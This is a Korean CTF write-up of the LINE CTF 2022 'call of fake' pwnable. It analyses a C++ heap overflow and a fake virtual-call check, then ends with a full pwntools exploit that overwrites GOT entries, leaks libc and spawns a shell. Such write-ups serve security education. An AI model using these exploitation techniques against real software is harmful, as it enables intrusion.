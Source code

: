 ```yaml
---
layout: post
title: LINE CTF 2022 - call of fake
date: 2022-04-17 13:55:00 +0900
categories: [Security, CTF]
tags: [c++, pwnable, BOF, virtual function, security factorial]
media_subpath: /assets/img/
---
```


![rank](0417-LINE-calloffake-writeup/01-rank.png)

3월 26일에 있었던 LINE CTF에 Security Factorial의 이름으로 참가하였고 18등을 하였다!

나는 call-of-fake 한 문제를 SDJ 형이랑 같이 풀었다.

---

## 문제 분석

![생각보다 잔디가 없다](0417-LINE-calloffake-writeup/02-checksec.png)

이 문제는 C++로 짜였고, C++ 하면 객체지향이다.

그런데, 이 문제에서 쓰이는 클래스들을 모두 분석하기에는 그 양이 방대해서, 동적 분석을 진행하고 필요한 것만 가져다가 IDA에 반영하는 식으로 우회 조건을 파악하면서 문제를 해결하였다.

먼저, main 함수는 decompile 된 코드를 보면, 좀 어지러울 수 있지만, 코드 구성은 대충 다음과 같다.

```c
objectManager *om;
guardManager *gm;

int main()
{
	char read_buf[64];
	char buf[0x400];

	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
	memset(read_buf, 0, sizeof(read_buf));
	memset(buf, 0, sizeof(buf));

	om = new objectManager();
	gm = om->castGuardManager();
	puts("Make call of fake!");

	for(int i=0; i<9; ++i)
		om->Objects[i] = new Object1(gm);

	for(int i=0; i<9; ++i)
	{
		Object1 *ptr = om->Objects[i];
		ptr->setTag(i);

		printf("str: ");
		memset(read_buf, 0, sizeof(read_buf));
		read(0, read_buf, 0x20);

		ptr->setName(read_buf, strlen(read_buf));
		puts(ptr->getNameBuffer());
	}

	printf("heap buffer overflow primitive: ");
	read(0, buf, 0x400);
	memcpy(om->myObject[0], buf, 0x400);  // <--- vulnerable
	delete om;
	return 0;
}
```
`objectManager` 객체에서는 9개의 Object1 객체를 멤버 변수로 가지고 있다. 그리고, 9개의 객체 내부의 `objectString` 멤버에 원하는 값을 쓴다. 그리고, 가장 중요한 것은 `om->myObject[0]`에 0x400만큼 힙 오버플로우가 발생한다는 것이다. 그리고, `om`의 destructor가 실행될 때, 우리가 힙에 작성한 값이 문제가 된다.

프로그램을 실행하고, 힙 오버플로우를 낼 때, 'A'를 쭉 입력하면 다음과 같은 디버깅 화면을 볼 수 있다.

![pwndbg - segmentation fault](0417-LINE-calloffake-writeup/03-segmentation-fault.png)

이를 통해, `objectManager`의 destructor 메소드가 실행되는 과정에서, 우리가 `objects[0]`에 입력한 값을 역참조한다는 것을 확인할 수 있다. 그렇다면, 'A'*8이 아니라, 무언가 정상적으로 역참조할 수 있는 값을 주어야 할 것이다.

그렇다면, 어떤 주소를 입력하는 것이 좋을까? decompile 된 코드를 살펴보자.

![objectManager::~objectManager / line 37](0417-LINE-calloffake-writeup/07-decompiled.png)

`om->Objects[i]->object1_vtable`의 값(우리가 통제할 수 있는 부분)을 가져온다.

그리고, 그것이 0이거나, `*(funcs+8*k)`와 일치하지 않으면, `exit(0)`을 수행하고,

그렇지 않으면, 자기 자신을 인자로 해당 함수를 실행한다.

<span style="color: #808080">* func_fire라고 표시된 거는 원래 들어있는 값이 Object1::fire() 여서 그렇다..</span>

그렇다면, funcs 테이블에 위치한 값은 무엇이길래 저걸 참조할까?

![b* 0x402D26 / ... / tele $rax 12](0417-LINE-calloffake-writeup/04-breakpoint.png)

바로, 가상함수 모음집이다. Object1의 메소드도 있고, objectString의 메소드도 있고, objectManager의 메소드도 있다.

이걸 어디서 났느냐?

![objectManager::objectManager -> guardManager::guardManager -> Guard::loadObjectFlow](0417-LINE-calloffake-writeup/05-function-table.png)

`objectManager`의 생성자에서 실행되는 함수 중에, `guardManager`의 벡터에 위의 함수들을 push_back하는 루틴이 존재한다! 즉, 힙에 있는 값이므로, overwrite가 가능하고 이를 이용하면 원하는 함수를 실행시킬 수도 있을 것이다.

그러나, `objectManager`의 생성자가 실행되고, 소멸자가 호출되는 사이에 힙에 있는 값을 overwrite하는 것은 어렵다. 따라서, 위에 있는 함수들을 적절히 이용하여, libc leak을 수행하고 쉘을 따내야 한다는 의미가 된다.

이중에서 내가 유용하게 사용하였던 함수는 `Object1::addTwiceTag와 objectString::set`이다.

`Object1::addTwiceTag`는 `Object1::addTag(this, *((_QWORD *)this + 1))`을 수행하는 함수로, `om->objects` 객체를 p64(addTwiceTag) + p64(rsi)로 덮으면, 원하는 값으로 rsi 설정이 가능하다.

`objectString::set`는 `memcpy(*((_QWORD)this+1), a2, *((_QWORD)this +2))`을 수행하는 함수로, `om->objects` 객체를 p64(set) + p64(rdi) + p64(rdx)로 덮으면, 임의의 destination에 원하는 size만큼 덮을 수 있다.

즉, `om->objects[0]`을 `addTwiceTag`로 세팅하고, `om->objects[1]`을 `objectString::set`로 세팅하면, memcpy(rdi, rsi, rdx)를 호출할 수 있다. 또한, call-of-fake 바이너리가 partial relro이기 때문에, GOT Overwrite가 가능하다는 것도 중요하다.

이전에 언급하였듯이, 위 벡터에 존재하지 않는 주소를 덮을 경우, exit(0)을 호출한다고 하였다. 그런데, 우리가 exit의 got를 원하는 주소로 덮어버린다면?

임의 함수 호출이 가능하다는 소리가 되고, 심지어는 그 뒤의 루틴이 `objects[i]->vtable` 함수 호출이기 때문에, 위 벡터에 존재하지 않는 주소라도 역참조하여 실행시킬 수 있다는 의미가 된다.

이러한 정보들을 적절히 활용하면, 문제를 풀이할 수 있다. 이후의 풀이 방법은 사람마다 다양할 것이다.

---

## 익스플로잇

```python
from pwn import *

def sendStr(msg):
    p.sendafter(b"str: ", msg)

p = process('./call-of-fake')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so', False)
for i in range(9):
    sendStr(b'A'*0x20)

om = 0x407110
gm = 0x407118
StringSet = 0x405d68
addTwiceTag = 0x405d50

# memcpy(exit_got, read_got, 0x8)
payload = p64(addTwiceTag)
payload += p64(0x407098) + b'B'*0x30
payload += p64(StringSet)
payload += p64(0x407088) + p64(0x8) + b'B'*0x28

# memcpy(memset_got, puts_got, 0x8)
payload += p64(addTwiceTag)
payload += p64(0x4070a8) + b'B'*0x50
payload += p64(StringSet)
payload += p64(0x407050) + p64(0x8) + b'B'*0x48

# puts(read_got)
payload += p64(addTwiceTag)
payload += p64(0x0) + b'C'*0x50
payload += p64(StringSet)
payload += p64(0x407098) + p64(0x0) + b'D'*0x48

# exit(0, memcpy_got, a3) -> read(0, memcpy_got, a3)
payload += p64(addTwiceTag)
payload += p64(0x407050) + b'F'*0x50
payload += p64(0x407020) + b'E'*0x58

# memcpy(_ZdlPv_got, a2, 0) -> system("/bin/sh")
payload += p64(StringSet)
payload += p64(0x407058) + p64(0)
p.sendafter(b": ", payload)

libc.address = u64(p.recv(6)+b'\x00\x00') - libc.symbols['read']
read = libc.symbols['read']
system = libc.symbols['system']

log.info("libc_base : " + hex(libc.address))
p.send(p64(system) + b'/bin/sh\x00')

p.interactive()
```
나의 문제 풀이 방법은 다음과 같다.

1. exit_got를 read_got로 덮는다.

2. memset_got를 puts_got로 덮는다.

3. puts(read_got)를 호출한다. (이때, addTwiceTag는 필요 없는 것 같은데 넣었네요)

4. Object1::addTwiceTag를 이용해, rsi를 memcpy_got로 세팅하고, 가상함수 테이블에 없는 함수인 printf_got를 넣어서, read(0, memcpy_got, arg3)을 실행한다.

5. memcpy_got를 system 함수로, 바로 옆에 있는 값을 "/bin/sh"로 덮은 뒤에, objectString::set 메소드를 호출하여, system("/bin/sh")가 실행되게 한다.

![shell](0417-LINE-calloffake-writeup/06-shell.png)

